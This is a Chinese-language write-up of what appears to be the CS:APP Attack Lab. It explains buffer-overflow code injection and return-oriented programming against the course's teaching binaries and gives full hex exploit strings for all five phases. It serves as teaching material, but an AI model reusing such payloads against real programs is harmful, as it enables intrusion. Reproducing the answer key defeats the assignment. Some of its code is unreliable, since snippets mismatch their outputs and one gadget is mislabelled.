

## Phase 1
```x86asm
.text:00000000004017A8 ; unsigned int __cdecl getbuf()
.text:00000000004017A8                 public getbuf
.text:00000000004017A8 getbuf          proc near               ; CODE XREF: test+9↓p
.text:00000000004017A8
.text:00000000004017A8 buf             = byte ptr -28h
.text:00000000004017A8
.text:00000000004017A8 ; __unwind {
.text:00000000004017A8                 sub     rsp, 28h
.text:00000000004017AC                 mov     rdi, rsp        ; dest
.text:00000000004017AF                 call    Gets
.text:00000000004017B4                 mov     eax, 1
.text:00000000004017B9                 add     rsp, 28h
.text:00000000004017BD                 retn
.text:00000000004017BD ; } // starts at 4017A8
.text:00000000004017BD getbuf          endp
```
`getbuf`在栈上分配了`0x28`字节的空间，作为参数传递给了`Gets`，在`Gets`中，循环`getchar`，直到获取到了`-1(EOF)`或者`10(\n)`则停止。  
根据栈的分配规则，可以推断返回地址就在`0x28+0x8`的位置，只需要利用缓冲区溢出写入目标函数`touch1`的地址即可使程序放回到`touch1`。  
因为64位系统上指针大小为8个字节，所以8字节一行更方便阅读。  
前0x28字节输入填充任意字符，再写入`touch1`的地址，即可构造出答案。
## Phase 2
```c
void __fastcall __noreturn touch2(unsigned int val)
{
  vlevel = 2;
  if ( val == cookie )
  {
    __printf_chk(1LL, "Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  }
  else
  {
    __printf_chk(1LL, "Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```
反编译`touch2`的代码，`touch2`对传入的参数（`edx`）进行了校验。简单地对栈返回地址直接修改是无法达成修改寄存器的目的的。  
简单回忆一下，栈是内存中的一段固定空间，初始状态栈指针指向栈最大的地址，从栈上分配空间需要对栈指针进行减操作，释放空间需要对栈指针进行加操作。既然程序运行是通过`mmap`文件到内存中进行执行，那么我们可以通过在栈中直接写入二进制代码，使返回到栈上执行我们注入的代码，这样就可以达成修改寄存器的目的了。  
使用`mov`修改`rdi`，再将`touch2`的地址入栈，返回，即可跳转到`touch2`
```x86asm
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```
#### 编译shellcode
关于如何获取汇编，比较方便的方法是直接编写s文件，让`gcc`编译。  
这里介绍一个在逆向工程里面经常用到的工具，`keystone`  
`keystone`有各种语言的binding，这里使用python
```bash
pip install keystone-engine
```
```python
from keystone import *

Shellcode_instruction = '''
mov rdi, 0x5561dca8
push 0x4018fa
ret
'''

KS = Ks(KS_ARCH_X86, KS_MODE_64)
code, count = KS.asm(Shellcode_instruction)
print(f"Hex\t{''.join(map(lambda x: ' ' + hex(x)[2:], code))}")
```
```
Hex      48 c7 c7 fa 97 b9 59 68 ec 17 40 0 c3
```
得到shellcode的二进制，接下来需要获得栈的地址，这一步推荐使用gdb下断点来获取rsp的值。  

## Phase 3
```c
int __fastcall hexmatch(unsigned int val, char *sval)
{
  const char *v2; // rbx
  char cbuf[110]; // [rsp+0h] [rbp-98h] BYREF
  unsigned __int64 v5; // [rsp+78h] [rbp-20h]

  v5 = __readfsqword(0x28u);
  v2 = &cbuf[random() % 100];
  __sprintf_chk(v2, 1LL, -1LL, "%.8x", val);
  return strncmp(sval, v2, 9uLL) == 0;
}
void __fastcall __noreturn touch3(char *sval /* rdi */)
{
  vlevel = 3;
  if ( hexmatch(cookie, sval) )
  {
    __printf_chk(1LL, "Touch3!: You called touch3(\"%s\")\n", sval);
    validate(3);
  }
  else
  {
    __printf_chk(1LL, "Misfire: You called touch3(\"%s\")\n", sval);
    fail(3);
  }
  exit(0);
}
```
`touch3`基于`touch2`的基础上，将参数改为了一个字符串，通过`hexmatch`函数进行对比。  
`hexmatch`被传入了`cookie`，然后通过格式化输出十六进制到`cbuf`，再使用`strncmp`比较。  
但是在同样方法构造了`shellcode`之后，会发现`seg fault`了，原因是`hexmatch`开了100字节栈空间，会把我们注入的数据覆盖。所以我们需要寻找新的注入点，保证我们的数据不会被覆盖。  
观察代码，可以发现`test`的空间相对可用，同样使用`gdb`获得`rsp`的值
```x86asm
mov rdi, 0x5561dca8
push 0x4018fa
ret
```
```
Hex      48 c7 c7 a8 dc 61 55 68 fa 18 40 0 c3
```
值得注意的而是，`C-style string`是以`\0`结尾的，所以我们最后要加上00。

## Phase 4
根据WriteUp，这个阶段`ctarget`启用了栈随机化和栈不可执行的保护，所以我们只能通过程序原来的函数对数据进行操作。这种编程方式叫做`Return-Oriented Programming/ROP`。
```bash
# 需要使用Og保证代码对应
gcc -c -Og farm.c
```
```c
void __fastcall __noreturn touch2(unsigned int val)
{
  vlevel = 2;
  if ( val == cookie )
  {
    __printf_chk(1LL, "Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  }
  else
  {
    __printf_chk(1LL, "Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```
首先给rdi赋值为`cookie`，但是没有现成的`gadget`。  
参考我们前面的操作，可以先把`cookie`放在栈中，利用`pop`弹出到某个寄存器，然后再用mov移动到`rdi`上。  
`WriteUp`给出的指令和Hex对应
  
但是这里有一个坑，我们把所有的`pop`指令找完之后，发现后面跟的都不是`c3`，也就是`ret`。  
其实汇编里面有一个指令叫`nop`，`hex`为`0x90`，表示没有操作，而刚刚好，我们可以找到`58 90 c3`。  
那么这个指令我们有`0x4019ab`和`0x4019cd`两个匹配，选择其中一个即可。  
查表，`mov rax, rdi; ret`为`48 89 c7 c3`，刚好我们`0x4019a2`就有。  
到这里，我们就可以构建出完整的调用链了。
## Phase 5
和上面`Phase 3`一样，`hexmatch`会开启一个大的栈空间，会把我们注入的代码覆盖，所以要注入到不会被覆盖的位置。`test`的栈帧由于栈随机化，我们同样无法访问，所以我们需要对`rsp`加上一个偏移。  
两个函数的c代码和上面的一样。  
```x86asm
movq %rsp, %rax
movq %rax, %rdi            ;将栈指针放入rdi
popq %rax
0x48                       ;将0x48放入rax
movl %eax, %edx
movl %edx, %ecx
movl %ecx, %esi            ;将rax放入rsi
lea (%rdi, %rsi, 1), %rax  ;栈指针和0x48相加
movq %rax, %rdi            ;相加结果放入rdi作为touch3的参数
touch3
ACSII C-style string of cookie
```
## Answer
### Phase 1
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
C0 17 40 00 00 00 00 00 
```
### Phase 2
```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 DC 61 55 00 00 00 00
```
### Phase 3
```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00
```
### Phase 4
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
### Phase 5
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00 
dd 19 40 00 00 00 00 00 
70 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61 00
```
